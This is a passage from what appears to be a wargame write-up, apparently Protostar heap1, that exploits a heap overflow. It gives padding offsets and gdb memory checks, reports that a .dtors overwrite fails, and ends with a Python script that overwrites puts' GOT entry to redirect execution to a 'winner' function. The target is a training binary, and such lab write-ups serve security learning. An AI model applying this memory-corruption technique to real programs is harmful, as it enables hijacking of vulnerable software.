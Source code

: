 `0x0804a02c-0x804a018=0x14=20`

Exploit:

```
argv[1] = 20 bytes padding + 0x08049674 (dtor destructor function)
argv[2] = 0x8048494 (address of winner)
```

Verification of our writes:

```
gdb-peda$ x/w 0x08049674
0x8049674 <__DTOR_END__>:	0x08048494
gdb-peda$ p winner
$11 = {void (void)} 0x8048494 <winner>
```

But it dosn't execute, other writeups have the same problem and another method that worked out for them was GOT overwrite, I will try it out too.

[How to Hijack the Global Offset Table with pointers](https://www.exploit-db.com/papers/13203/) is a great reference and the method seems quite simple, almost as simple as a dtor array overwrite.

We will overwrite the global offset table address for the puts call as puts is called later down in main.

```
0x08048561 <+168>:	call   0x80483cc <puts@plt>
```

```
gdb-peda$ x/i 0x80483cc
0x80483cc <puts@plt>:	jmp    DWORD PTR ds:0x8049774
```

So we will overwrite `0x8049774` with the address of winner.

Lets verify it:

```
gdb-peda$ x/w 0x8049774
0x8049774 <puts@got.plt>:	0x08048494
gdb-peda$ p winner
$15 = {void (void)} 0x8048494 <winner>
```

The final exploit looks like this:

```python
import struct
def conv(num):
	return struct.pack("<I",num)

#detorAdr = 0x08049674
gotPutsAdr = 0x8049774
padding = "A"*20

winner = 0x8048494

arg1 = padding+conv(gotPutsAdr)
arg2 = conv(winner)

print arg1 + " " + arg2
```
